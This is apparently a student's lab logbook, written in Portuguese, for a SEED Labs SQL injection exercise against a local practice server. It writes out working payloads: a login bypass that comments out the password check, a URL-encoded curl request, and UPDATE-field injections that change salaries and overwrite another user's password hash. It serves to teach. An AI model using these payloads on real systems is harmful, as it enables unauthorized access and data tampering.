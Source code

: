 # SQL Injection
## Setup
> Para começar, utilizamos o seguinte comando para editarmos o ficheiro de forma a colocar uma nova entrada nos hosts conhecidos pela máquina virtual: <br>
```
sudo nano/etc/hosts
10.9.0.5 www.seed-server.com %nova entrada
```

> Posto isso, passamos à pasta LabSetup e corremos os containers escritos no lab e abrimos uma shell com acesso direto à base de dados manipulada durante os exercícios. <br>
```
dcbuild #docker-compose build
dcup #docker-compose up

dockps
docksh 2c #Para abrirmos uma shel do MySQL container para interagirmos diretamente 
```

>![](images/LOGBOOK8_1.png)

> E ficamos assim com o Setup feito e podemos passar às tasks. 


## Tasks

### Task 1: 
>Colocamos o comando: <br>
```
 mysql -u root -p 
 ``` 
> e colocamos a palavra-passe depois para executarmos o MySQL em modo root. <br>
> Posto isto, para escolhermos o schema fizemos: <br>
```
use sqllab_users;
```
> e como o objetivo da tarefa é selecionar os dados do utilizador cujo o name é "Alice" usamos o comando: <br>
```
SELECT * FROM credential WHERE Name = "Alice";
```
> Finalizamos assim a task 1. 

>![](images/LOGBOOK8_2.png)

 ### Task 2:
> Para a task 2 abrimos o site www.seed-server.com e analisamos o código fornecido em unsafe home.php, que demonstra não ser eficaz no que toca a segurança pois a query utilizada: <br>

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’$input_uname’ and Password=’$hashed_pwd’
```
> utiliza diretamente as variáveis $input_uname e $hashed_pwd sem que estas sejam sanitizadas, ou seja, que sejam revistas com um processo de limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>
> Devido a essa fragilidade iremos usar isto para conseguir cumprir a tarefa. 

#### Task 2.1:
> Para a Task 2.1 temos o objetivo de entrar enquanto administradores. <br>
> Pressupondo que o nome do administrador é "Admin" e que não sabemos a senha, podemos colocar como nome de utilizador "Admin'#" para garantir que o comentamos toda a verificação da palavra passe e dessa forma esta ser ignorada no login.<br>
```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= ’Admin'#’ and Password=’$hashed_pwd’
```
> Assim ao colocarmos "Admin'#" o que está a acontecer é que o " ' " vai fechar com o anterior e o " # " vai comentar tudo o que vem à frente. <br>
> E então conseguimos cumprir a tarefa de fazer login na conta do administrador e desta forma obter dados que pertencem ao resto dos utilizadores da aplicação. <br>

>![](images/LOGBOOK8_3.png)

#### Task 2.2:

> Nesta tarefa temos o objetivo de repetir a tarefa 2.1 mas agora através da linha de comandos. Para isso vamos utilizar o comando 'curl' para fazer um pedido GET. <br>
> Foi nos dado este exemplo: <br>
```  
$ curl ’www.seed-server.com/unsafe_home.php?username=alice&Password=11’  
``` 
> e ainda nos foi avisado que devemos tratar dos caracteres especiais de forma diferente. Podemos adaptar isso e criar outro comando malicioso. Começamos por cifrar os caracteres especiais, usamos o %27 que representa ' e o %23 que representa #: <br>
```
$ curl "www.seed-server.com/unsafe_home.php?username=Admin%27%3&Password=" 
```

>![](images/LOGBOOK8_4.png)

> Cumprimos então a tarefa obtendo o código html de toda a página que contém todos os dados que pertencem ao resto dos utilizadores da aplicação.

#### Task 2.3:

> Nesta tarefa vamos aproveitar a vulnerabilidade para criar mais uma instrução SQL em vez de simplesmente comentarmos o que vem para a frente. <br>
> Para isso, vamos usar ';' para colocar novos comandos de forma a atualizar a tabela. <br>
```sql
admin'; UPDATE credential SET Salary = 90000 WHERE ID = 1 AND Name = 'Alice'; # 
```
> Contudo, embora o comando estivesse bem, a operação não foi concluída devido a um erro na base de dados. <br>

>![](images/LOGBOOK8_5.png)

> Como mencionado no guião, existe uma contramedida que impede de executarmos duas instruções SQL neste ataque. Isso deve-se a uma extensão de MySQL utilizada pelo PHP do servidor que tem uma proteção que impede a execução de múltiplas queries. Fonte: https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php <br>

### Task 3:

> Nesta tarefa vamos aproveitar que ao o user atualizar o perfil é usada uma instrução UPDATE.

#### Task 3.1:

> Começamos por aproveitar os dados obtidos e as tarefas realizadas até agora e demos login com o username " Alice'# ". Chegamos à pagina para editar os dados pessoais, a que temos o código no ficheiro unsafe_edit_backend.php. Ao analisar o código repara-se também que existe outra query com vulnerabilidade, que tal como nas tarefas anteriores, não faz a limpeza / validação / transformação dos dados para garantir que estejam num formato seguro e adequado. <br>

>![](images/LOGBOOK8_6.png)

> Desta forma, já conseguimos alterar o salário que tentamos na tarefa 2.3. <br>
> Como o UPDATE vai atualizar vários campos da tabela "credential" e já reparamos que esta tem também o campo do salário, vamos então criar um comando para colocar no campo do Phone Number para que atualize (para além dos que já vai atualizar) ainda mais, o salário. <br>

```sql
911111111', Salary='90000
```
> e dessa forma vai então atualizar estes campos: <br>

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111’,Salary='90000' WHERE ID=$id;
```

>![](images/LOGBOOK8_7.png)

> E conseguimos assim concluir a tarefa 3.1, alterando o salário para um valor mais alto. <br>

#### Task 3.2:

> Nesta tarefa vamos fazer algo muito parecido com o anterior, porém vamos alterar o valor do salário do chefe "Boby" para 1. <br>
> Conseguimos fazer isso de forma rápida se fizermos um novo WHERE e comentarmos o anterior. Algo deste género: <br>

```sql
911111111', Salary='1' WHERE Name = 'Boby';# 
```

> e o resultado fica assim:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Salary='1' WHERE Name = 'Boby';# WHERE ID=$id;
```

> Para vermos isto vamos à shell e corremos: <br>

```sql
SELECT Salary FROM credential WHERE Name='Boby';
```

> Antes e depois:

>![](images/LOGBOOK8_8.png)

#### Task 3.3:

> Temos como objetivo fazer login através da conta do nosso chefe, e para isso vamos ter de alterar a senha dele. Depois de ter alterado o salário é fácil alterar a senha. <br>
> Analisamos o código fornecido em unsafe_edit_backend.php e verificamos que a forma como protegem a palavra passe é com criptografia SHA1. Por isso, para trocarmos a palavra passe para "jafoste" colocamos primeiro em hash "2e2a6402737a5e73c6baad2545f634d6be68d4ba". <br>

```sql
911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';#

```

> e o resultado fica assim: <br>

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password=’$hashed_pwd’,
PhoneNumber=’911111111', Password='2e2a6402737a5e73c6baad2545f634d6be68d4ba' WHERE Name = 'Boby';# WHERE ID=$id;
```

>![](images/LOGBOOK8_9.png)

> E dessa forma conseguimos então entrar no perfil do Boby com a palavra passe "jafoste".
